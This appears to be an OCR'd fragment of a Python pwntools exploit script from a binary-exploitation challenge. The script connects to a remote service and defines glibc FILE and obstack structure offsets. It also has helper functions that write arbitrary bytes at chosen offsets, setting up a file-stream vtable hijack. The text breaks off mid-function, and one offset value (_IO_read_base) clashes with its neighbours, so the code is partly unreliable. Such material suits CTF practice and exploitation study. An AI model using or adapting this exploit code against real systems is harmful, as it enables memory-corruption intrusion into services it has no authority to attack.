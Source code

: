 ```py

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source /home/nasm/Downloads/pwndbg/gdbinit.py
'''.format(**locals())

io = None
io = start()

class File:
    flags          = 0x0
    _IO_read_base  = 24
    _IO_read_end   = 0x10
    _IO_write_base = 0x20
    _IO_write_ptr  = 0x28
    _IO_write_end  = 0x30
    _IO_buf_base   = 0x38
    _IO_buf_end    = 0x40
    fileno         = 0x70
    vtable         = 0xd8
    obstack       = 0xe0

class obstack:
    chunkfun       = 56
    extra_arg      = 56+16
    use_extra_arg  = 56+16+8

def fflush():
    io.sendlineafter(b"> ", b"1")

def trick(offt, data):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"offset: ", str(offt).encode())
    io.sendlineafter(b"value: ", data)

def leave():
    io.sendlineafter(b"> ", b"0")

def write_ptr(ptr: bytes, offt: int, debug=True):
    for i in range(8):
        if ptr[i]:
            trick(offt + i, str(ptr[i]).encode())

def partial_write2(ptr: bytes, offt: int):
    for i in range(2):
        trick(offt + i, str(ptr[i]).encode())

def partial_write(ptr: bytes, offt: int):
```